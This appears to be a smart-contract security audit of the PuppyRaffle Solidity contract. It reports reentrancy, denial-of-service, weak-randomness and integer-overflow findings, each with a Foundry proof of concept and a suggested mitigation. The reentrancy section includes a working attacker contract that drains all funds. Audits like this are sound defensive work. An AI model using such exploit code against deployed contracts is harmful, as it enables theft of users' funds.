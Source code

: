 <!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width:  100%;
        height:  100vh;
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width:  200;
        max-height:  200;
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
</style>
</head>
<body>

<div class="full-page">
    <img src="./../krisconnectlogo.webp" alt="Logo">
    <div>
    <h1>Protocol Audit Report</h1>
    <h3>Prepared by: krisconnect</h3>
    </div>
</div>

</body>
</html>

# Table of Contents
- [Table of Contents](#table-of-contents)
- [Protocol Summary](#protocol-summary)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
- [High](#high)
- [Medium](#medium)
- [Low](#low)
- [Informational](#informational)
- [Gas](#gas)

# Protocol Summary

This project is to enter a raffle to win a cute dog NFT. The protocol should do the following:

Call the enterRaffle function with the following parameters:
address[] participants: A list of addresses that enter. You can use this to enter yourself multiple times, or yourself and a group of your friends.
Duplicate addresses are not allowed
Users are allowed to get a refund of their ticket & value if they call the refund function
Every X seconds, the raffle will be able to draw a winner and be minted a random puppy
The owner of the protocol will set a feeAddress to take a cut of the value, and the rest of the funds will be sent to the winner of the puppy.

# Disclaimer

The krisconnect team makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the Solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| *Likelihood* | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details 
## Scope 
- Commit Hash: e30d199697bbc822b646d76533b66b7d529b8ef5
- ./src/ \
└── PuppyRaffle.sol
## Roles
# Executive Summary
## Issues found
# Findings
### [S-H] Reentrency attack in the "refund" function

**Description:** \
The implemented "refund" function that is supposed to allow players to get a refund does not follow the [CEI](https://fravoll.github.io/solidity-patterns/checks_effects_interactions.html) (Checks, Effects, Interactions) guidelines and therefore it is vulnerable to reentrency.

**Impact:** \
A malicious actor can drain the funds in the contract stealing the stored currency of all the players.

**Proof of Concept:** \
Include the following test and attacker contract into the "puppyRaffleTest.t.sol": \

<details>

```javascript
function testReentrance() public playersEntered {
        ReentrancyAttacker attacker = new ReentrancyAttacker(address(puppyRaffle));
        vm.deal(address(attacker), 1e18);
        uint256 startingAttackerBalance = address(attacker).balance;
        uint256 startingContractBalance = address(puppyRaffle).balance;

        console.log("The starting attacker balance is {}", startingAttackerBalance);
        console.log("The starting contract balance is {}", startingContractBalance);

        attacker.attack();

        uint256 endingAttackerBalance = address(attacker).balance;
        uint256 endingContractBalance = address(puppyRaffle).balance;
        assertEq(endingAttackerBalance, startingAttackerBalance + startingContractBalance);
        assertEq(endingContractBalance, 0);
        console.log("The ending attacker balance is {}", endingAttackerBalance);
        console.log("The ending contract balance is {}", endingContractBalance);
    }

    contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(address _puppyRaffle) {
        puppyRaffle = PuppyRaffle(_puppyRaffle);
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    fallback() external payable {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }
}

```
</details>

**Recommended Mitigation:** 
1. Follow the CEI recommendations and make sure the Effect happens before the Interaction. One way of doing this would be to move line 103 above line 101 in the code.
2. Use the [Reentrency Guard](https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard)

### [S-M] Denial of Service (DoS) vulnerability in iteration logic implementation

**Description:** \
The ```Enter Raffle``` function is implemented with double "for" loops but without any limitation as to how many users can enter the raffle. This combined with entry fee increasing with each consecutive player can lead to a case where after the nth player the gas fee will be extremely high.\
**Impact:** \
A malicious actor can create hundreds or thousands of users and enter with each of them in an automated manner, increasing the gas price each time, denying the service for others.\
**Proof of Concept:**\
Add the code snippet below to the "puppyRaffleTest.t.sol" file and run the tests.

<details>

```javascript
function testDoS() public {
    
        vm.txGasPrice(1);
        uint256 playersNum = 100;
        address[] memory players = new address[](playersNum);
        for(uint256 i = 0; i < playersNum; i++) {
            players[i] = address(i);
        }

        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
        uint256 gasEnd = gasleft();

        uint256 gasUsedFirst = gasStart - gasEnd * tx.gasprice;
        console.log("Gas used by the first 100 players {}", gasUsedFirst);

        address[] memory playersTwo = new address[](playersNum);
        for(uint256 i = 0; i < playersNum; i++) {
            playersTwo[i] = address(i+playersNum);
        }

        uint256 gasStartTwo = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playersTwo.length}(playersTwo);
        uint256 gasEndTwo = gasleft();

        uint256 gasUsedSecond = gasStartTwo - gasEndTwo * tx.gasprice;
        console.log("Gas used by the second 100 players {}", gasUsedSecond);
    }
```
</details>

**Recommended Mitigation:** \
1. Consider removing the check for duplicates. Regardless of implementation, the check wouldn't be able to verify the identity of the wallet owner and because creating a wallet is a zero cost process, anyone can create any number of wallets.
2. If that is not an option, a mapping could be created that maps the addresses of the players to a uint256 value to something like an "ID", then the check is done iterating through the array of these integers, requireing the mapped IDs to be unique. This way the protocol would only select from new players when the selectWinner() function is called (also incrementing the ID after each call).
3. Alternatively use [OpenZeppelin's Enumerable Set](https://docs.openzeppelin.com/contracts/4.x/api/utils#EnumerableSet)

### [S-M] Weak randomness

**Description:** \
The protol uses a random number generation method that has been proven to be exploitable in the functions ```selectWinner```.

**Impact:** \
A malicious actor can influence their chances of getting more valueable NFTs based on rarity.

**Proof of Concept:** \
According to the [slither documentation](https://github.com/crytic/slither/wiki/Detector-Documentation#weak-prng), find the example below:

<details>

```javascript
contract Game {

    uint reward_determining_number;

    function guessing() external{
      reward_determining_number = uint256(block.blockhash(10000)) % 10;
    }
}
```

</details>

**Recommended Mitigation:** 
Use [chainlink VRF](https://docs.chain.link/vrf) or [Commit Reveal Scheme](https://www.gate.io/learn/articles/what-is-a-commit-reveal-scheme-in-blockchain/862).

### [S-M] Integer overflow and unsafe wrapping in ```TotalFees```

**Description:** \
Within the winner selector function on line 134, the totalFees variable can hold integer values without issues if the number of players is relatively low. Once the number of players increases, the stored value increments above what the buffer is capable of holding and switches back to zero. Additionally, the uint64 cannot hold larger values.

**Impact:** \
Getting the fees wrong can severly impact the protocol's internal account mechanisms and can provide incorrect data for calculations.

**Proof of Concept:** \
Add the code snippet below to the "puppyRaffleTest.t.sol" file and run the tests.

<details>

```javascript
    function testIntegerOverflow() public playersEntered {
        
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);
        puppyRaffle.selectWinner();
        uint256 startingTotalFees = puppyRaffle.totalFees();
        console.log("Starting total fee is {}", startingTotalFees);

        
        uint256 playersNum = 89;
        address[] memory players = new address[](playersNum);
        for (uint256 i = 0; i < playersNum; i++) {
            players[i] = address(i);
        }
        puppyRaffle.enterRaffle{value: entranceFee * playersNum}(players);
        

        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);
        puppyRaffle.selectWinner();
        
        uint256 endingTotalFees = puppyRaffle.totalFees();
        console.log("Eventhough 89 players have entered the total ending fee is {}", endingTotalFees);
        assert(endingTotalFees < startingTotalFees);

        // We are also unable to withdraw any fees because of the require check
        vm.prank(puppyRaffle.feeAddress());
        vm.expectRevert("PuppyRaffle: There are currently players active!");
        puppyRaffle.withdrawFees();
    }
```

The unsafe wrapping can be confirmed using chisel:
1. Find out the maximum value a uint256 can hold.
2. Find out what is the value of 20 ether.
3. Cast the value of 20 ether into a uint64.
4. The value shows around 1 ether instead of the expected 20 ether.
The wrapping issue occurs at 20 ether:

![20 ether on uint64](image.png)


</details>

**Recommended Mitigation:** \
Use newer version of solidity. Version > 0.8.0.

# Informational
# Gas 